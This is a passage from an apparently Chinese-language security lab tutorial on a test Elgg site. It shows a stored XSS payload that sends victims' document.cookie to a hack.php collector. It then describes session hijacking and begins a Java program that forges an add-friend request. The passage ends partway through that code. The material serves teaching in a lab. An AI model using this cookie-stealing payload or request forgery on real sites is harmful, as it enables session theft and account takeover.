 ![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430792908584?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

step3:在编辑profiles页面插入以下js代码，保存后访问用户资料页面。

```
	&lt;script&gt;document.write(&#39;&lt;img src=http://www.xsslabelgg.com/hack.php?c=&#39; + escape(document.cookie) + &#39;&gt;&#39;);&lt;/script&gt;
```

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430793000033?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

step4:查看cookie.txt文件，下图红色圆圈即为接收到的cookie.

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430793023315?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

### lab4 使用获取的Cookie进行会话劫持 ##

当获取了受害者的Cookie以后，我们可以干嘛呢？可以利用Cookie登录用户，也就是会话劫持。

会话劫持：窃取受害者的cookie后,攻击者可以仿造受害者向服务器发送请求,包括代表受害者增删好友，删去公司职位信息等等。从本质上讲, 就是劫持受害者的会话。

这个实验我们将用到firefox的菜单栏中tools中的LiveHTTPHeaders工具。

首先，我们查看受害者添加好友时候的请求：
我们登录Samy的账号来添加Boby来查看添加好友的请求

step1:

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430793044079?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

如上图，登陆后单击‘more’中的‘members’来添加好友，然后点击一个不是好友的用户来添加好友。

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430793112478?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

点击这里添加好友。

step2:

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430793133381?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

step2中的截图即为请求信息。

当攻击者知道了他的请求以后，就可以编写一个Java程序发送相同的HTTP请求达到创建项目的目的，当然还可以进行其他的请求：

HTTP访问请求：
&gt;1. 打开一个连接到web服务器。

&gt;2. 设置必要的HTTP头信息。

&gt;3. 发送请求到web服务器。

&gt;4. 得到来自web服务器的响应。

```
  	import java.io.*;
	import java.net.*;


	public class HTTPSimpleForge {

	public static void main(String[] args) throws IOException {
	try {
	int responseCode;
	InputStream responseIn=null;
	String requestDetails = &#34;&amp;__elgg_ts=&lt;&lt;correct_elgg_ts_value&gt;&gt;
	&amp;__elgg_token=&lt;&lt;correct_elgg_token_value&gt;&gt;&#34;;
	// URL to be forged.
	URL url = new URL (&#34;http://www.xsslabelgg.com/action/friends/add?
	friend=&lt;&lt;friend_user_guid&gt;&gt;&#34;+requestDetails);
	// URLConnection instance is created to further parameterize a
	// resource request past what the state members of URL instance
```
